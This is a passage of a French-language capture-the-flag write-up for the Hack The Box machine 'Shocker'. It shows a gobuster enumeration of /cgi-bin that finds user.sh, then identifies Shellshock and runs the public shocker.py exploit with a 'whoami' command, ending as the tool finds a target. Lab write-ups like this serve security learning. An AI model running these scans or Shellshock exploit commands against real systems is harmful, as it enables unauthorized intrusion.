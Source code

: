 ```bash
[07:35:57] 403 -  300B  - /server-status/                                   
                                                                             
Task Completed   
```
On peut essayer de trouver des fichiers à l'intérieur avec gobuster et l'extension -x, qui permet de tester toute la liste avec les extensions précisées. Ici, on teste les fichiers dans le dossier cgi-bin avec les extensions "sh", "bin", et "cgi".
```bash
$ gobuster dir -u http://shocker.htb/cgi-bin -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x sh,pl,bin,cgi
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shocker.htb/cgi-bin
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              sh,bin,cgi
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 118]
Progress: 10557 / 882244 (1.20%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 11293 / 882244 (1.28%)
===============================================================
Finished
===============================================================
```
Bingo ! On trouve un script user.sh.

## Foothold

### Shellshock

Grâce au nom de la machine "shocker" et quelques recherches sur le web, on trouve la vulnérabilité "shellshock" qui permet d'executer du code arbitraire grâce aux fichiers présents dans le dossier **cgi-bin**. On trouve un github permettant de l'exploiter:
```bash
$ python2 shocker.py --Host=shocker.htb --cgi /cgi-bin/user.sh --command whoami

   .-. .            .            
  (   )|            |            
   `-. |--. .-.  .-.|.-. .-. .--.
  (   )|  |(   )(   |-.'(.-' |   
   `-' '  `-`-'  `-''  `-`--''  v1.1 
   
 Tom Watson, tom.watson@nccgroup.trust
 https://www.github.com/nccgroup/shocker
     
 Released under the GNU Affero General Public License
 (https://www.gnu.org/licenses/agpl-3.0.html)
    
    
[+] Single target '/cgi-bin/user.sh' being used
[+] Checking connectivity with target...
[+] Target was reachable
[+] Looking for vulnerabilities on shocker.htb:80
[+] 1 potential target found, attempting exploits
```